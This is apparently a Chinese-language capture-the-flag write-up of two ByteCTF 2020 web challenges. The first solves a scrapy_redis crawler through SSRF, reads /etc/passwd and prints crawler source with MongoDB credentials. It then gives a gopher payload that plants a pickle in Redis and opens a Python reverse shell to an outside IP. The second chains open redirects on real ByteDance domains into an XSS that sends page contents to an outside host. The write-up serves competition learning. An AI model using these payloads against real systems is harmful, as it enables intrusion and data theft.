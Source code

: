 # ByteCTF2020

## web

### easy_scrapy

体验一编网站的功能后，发现如下api

```
/list
/push post:url=https%3A%2F%2Fwww.4399.com&code=16674458
/result?url=https://www.4399.com
```

让网站爬取自己的服务器以获得请求头

```
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en
User-Agent: scrapy_redis
Accept-Encoding: gzip, deflate
Host: ccreater.top:60000


```

通过ua头发现是：scrapy_redis

本地搭建scrapy_redis服务爬取网站，查看redis里设置的键值，发现myscrapy:requests中

![img](https://raw.githubusercontent.com/Explorersss/photo/master/20201026113031.png)



存在的pickle数据

网站自然提交http和https协议的url，但是因为是爬虫猜测嵌入一个a标签就可以绕过这个限制

提交如下网站

```
<a href="file:///etc/passwd">
```



成功读取到/etc/passwd，把爬虫代码爬下来本地测试

scrapy.cfg

```python
# Automatically created by: scrapy startproject
#
# For more information about the [deploy] section see:
# https://scrapyd.readthedocs.io/en/latest/deploy.html

[settings]
default = bytectf.settings

[deploy]
#url = http://localhost:6800/
project = bytectf
```

bytectf/settings.py

```python
BOT_NAME = 'bytectf'
SPIDER_MODULES = ['bytectf.spiders']
NEWSPIDER_MODULE = 'bytectf.spiders'
RETRY_ENABLED = False
ROBOTSTXT_OBEY = False
DOWNLOAD_TIMEOUT = 8
USER_AGENT = 'scrapy_redis'
SCHEDULER = "scrapy_redis.scheduler.Scheduler"
DUPEFILTER_CLASS = "scrapy_redis.dupefilter.RFPDupeFilter"
REDIS_HOST = '172.20.0.7'
REDIS_PORT = 6379
ITEM_PIPELINES = {
   'bytectf.pipelines.BytectfPipeline': 300,
}
```

bytectf/byte.py

```python
import scrapy
import re
import base64
from scrapy_redis.spiders import RedisSpider
from bytectf.items import BytectfItem

class ByteSpider(RedisSpider):
    name = 'byte'

    def parse(self, response):
        byte_item = BytectfItem()
        byte_item['byte_start'] = response.request.url#ä¸»é®ï¼åå§url
        url_list = []
        test = response.xpath('//a/@href').getall()
        for i in test:
            if i[0] == '/':
                url = response.request.url + i
            else:
                url = i
            if re.search(r'://',url):
                r = scrapy.Request(url,callback=self.parse2,dont_filter=True)
                r.meta['item'] = byte_item
                yield r
                url_list.append(url)
                if(len(url_list)>3):
                    break
        byte_item['byte_url'] = response.request.url
        byte_item['byte_text'] = base64.b64encode((response.text).encode('utf-8'))
        yield byte_item

    def parse2(self,response):
        item = response.meta['item']
        item['byte_url'] = response.request.url
        item['byte_text'] = base64.b64encode((response.text).encode('utf-8'))
        yield item
```

bytectf/items.py

```python
import scrapy


class BytectfItem(scrapy.Item):
    # define the fields for your item here like:
    # name = scrapy.Field()
    byte_start = scrapy.Field()#
    byte_text = scrapy.Field()#text
```

bytectf/pipelines.py

```python
import pymongo

class BytectfPipeline:
    def __init__:
        MONGODB_HOST = '172.20.0.8'
        MONGODB_PORT = 27017
        MONGODB_DBNAME = 'result'
        MONGODB_TABLE = 'result'
        MONGODB_USER = 'N0rth3'
        MONGODB_PASSWD = 'E7B70D0456DAD39E22735E0AC64A69AD'
        mongo_client = pymongo.MongoClient("%s:%d" % (MONGODB_HOST, MONGODB_PORT))
        mongo_client[MONGODB_DBNAME].authenticate(MONGODB_USER, MONGODB_PASSWD, MONGODB_DBNAME)
        mongo_db = mongo_client[MONGODB_DBNAME]
        self.table = mongo_db[MONGODB_TABLE]



    def process_item(self, item, spider):
        quote_info = dict(item)
        print(quote_info)
        self.table.insert(quote_info)
        return item
```

测试`<a href="gopher://.....">`发现并不能解析gopher协议

继续测试发现接口`/result?url=https://www.4399.com`，也存在ssrf漏洞且至此gopher协议

传入以下payload:

```
gopher%3a//172.20.0.7%3a6379/_%250D%250Azadd%2520byte%253Arequests%25201%2520%2522cos%255Cnsystem%255Cn%2528S%2527python%2520-c%2520%255Cx27import%2520socket%252Csubprocess%252Cos%253Bs%253Dsocket.socket%2528socket.AF_INET%252Csocket.SOCK_STREAM%2529%253Bs.connect%2528%2528%255Cx2239.108.164.219%255Cx22%252C60003%2529%2529%253Bos.dup2%2528s.fileno%2528%2529%252C0%2529%253B%2520os.dup2%2528s.fileno%2528%2529%252C1%2529%253B%2520os.dup2%2528s.fileno%2528%2529%252C2%2529%253Bp%253Dsubprocess.call%2528%255B%255Cx22/bin/sh%255Cx22%252C%255Cx22-i%255Cx22%255D%2529%253B%255Cx27%2527%255CntR.%2522%250D%250Aquit%250D%250A
```

成功弹回shell

### douyin_vedio

题目描述

>Do you like douyin video?
>Submit your payload at http://c.bytectf.live:30002/
>
>( Server URLs which only admin can access:
>http://a.bytectf.live:30001/
>http://b.bytectf.live:30001/ )

题目中只能将http://a.bytectf.live:30001/ 开头的url发给管理员，而c.bytectf.live中存在未过滤的xss点

思路就很清晰了，想办法跳转到c.bytectf.live再说，我们查看源代码发现：

```
RewriteRule /favicon.ico$ /favicon.ico [QSA,PT,L]
RewriteRule /$ / [QSA,PT,L]
RewriteRule /search$ /search [QSA,PT,L]
RewriteRule /send$ /send [QSA,PT,L]
RewriteRule /static/(.*)$ /static/$1 [QSA,PT,L]
RewriteRule (.*)$ http://www.douyin.com$1  
```



最后一个神奇的重写规则，所以我们只要在www.douyin.com下找到一个任意url跳转就可以执行c.bytectf.live的xss

通常url跳转常出现在登入登出，还有外站url跳转，顺着这个思路我们可以找到`http://www.douyin.com/logout/?next=https%3A%2F%2Fwww.douyin.com/23333`可以跳转到部分域名(www.douyin.com , creator.douyin.com ...)

这样就扩大了我们的攻击面，继续按照相同的思路进一步扩大攻击面的url:`https://creator.douyin.com/passport/web/logout/?next=https://www.douyin.com`

测试发现可以跳转到任意`douyin.com/bytedance.com/.bytecdn.cn/ixigua.com/bytedance.net/snssdk.com/toutiao.com/huoshan.com/jinritemai.com`结尾的域名

接着用谷歌搜索：`site:xxxxxxx.com 跳转` 发现任意url跳转:`https://tsearch-quic.snssdk.com/search/jump?url=http://ccreater.top:60080`

组合成跳转到c.bytectf.live的url:

```
http://a.bytectf.live:30001/logout?next=https%3a//creator.douyin.com/passport/web/logout/%3fnext%3dhttps://tsearch-quic.snssdk.com/search/jump?url=http://c.bytectf.live:30002/?action=post%25252526id=b44cb32f302e2d4249dea06a2ffa0da1
```

因为安全策略的设置问题(`frame-ancestors http://*.bytectf.live:*/`覆盖了`['X-Frame-Options'] = 'sameorigin'`)，导致我们可以直接作为iframe导入，读取内容

```
	resp.headers['X-Frame-Options'] = 'sameorigin'
    resp.headers['Content-Security-Policy'] = "default-src http://*.bytectf.live:*/ 'unsafe-inline'; frame-src *; frame-ancestors http://*.bytectf.live:*/"
    resp.headers['X-Content-Type-Options'] = 'nosniff'
    resp.headers['Referrer-Policy'] = 'same-origin'
```

所以xss的代码是：

```javascript
document.domain="bytectf.live"; 
flagPage=document.createElement("iframe"); flagPage.src="http://a.bytectf.live:30001/?keyword=B"; document.body.append(flagPage); setTimeout(()=>{ document.location="http://ccreater.top:60001/"+btoa(document.body.getElementsByTagName("iframe")[0].contentWindow.document.body.innerHTML) },500)

```

但是不知道为啥iframe.src=`http://a.bytectf.live:30001/`可以获取到内容，而`http://a.bytectf.live:30001/send`却不可以。。。

监听端口成功拿到flag


